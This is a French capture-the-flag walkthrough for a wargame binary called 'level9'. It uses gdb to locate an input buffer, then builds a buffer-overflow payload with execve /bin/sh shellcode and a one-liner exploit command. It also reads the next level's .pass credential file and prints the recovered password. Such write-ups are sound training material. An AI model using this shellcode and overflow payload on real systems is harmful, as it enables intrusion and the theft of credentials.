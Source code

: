 On pose un breakpoint juste avant que eax ne soit réécrit avec notre input:
  - `breakpoint * 0x0804867c`
  - `r AAAA`
  - `x $eax`
    ```asm
    0x804a00c:	0x41414141
    ```
    - l'adresse de notre input est donc 0x804a00c.

On construit donc notre payload avec le format expliqué ci-dessus:
- '\x10\xa0\x04\x08' => &input + 4 en little endian
- "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" => shellcode
- "A" * 80
- '\x0c\xa0\x04\x08'

-`./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A" * 80 + "\x0c\xa0\x04\x08"')`
  ```
  ```
  - `whoami`
    ```
    bonus0
    ```
  - `cat /home/user/bonus0/.pass`
    ```
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
    ```
